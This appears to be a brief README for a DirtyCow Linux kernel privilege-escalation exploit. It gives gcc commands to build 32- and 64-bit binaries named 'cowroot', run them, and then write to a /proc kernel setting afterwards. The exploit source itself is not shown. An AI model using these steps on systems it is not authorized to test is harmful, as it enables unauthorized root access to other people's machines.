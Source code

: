 # DirtyCow
Dirtycow exploit for both 32 and 64-bit 

# Usage Example For 32 Bit

* $ gcc dc32.c -o cowroot -pthread
* $ ./cowroot
* $ echo 0 > /proc/sys/vm/dirty_writeback_centisecs

# Usage Example For 64 Bit

* $ gcc dc64.c -o cowroot -pthread
* $ ./cowroot
* $ echo 0 > /proc/sys/vm/dirty_writeback_centisecs
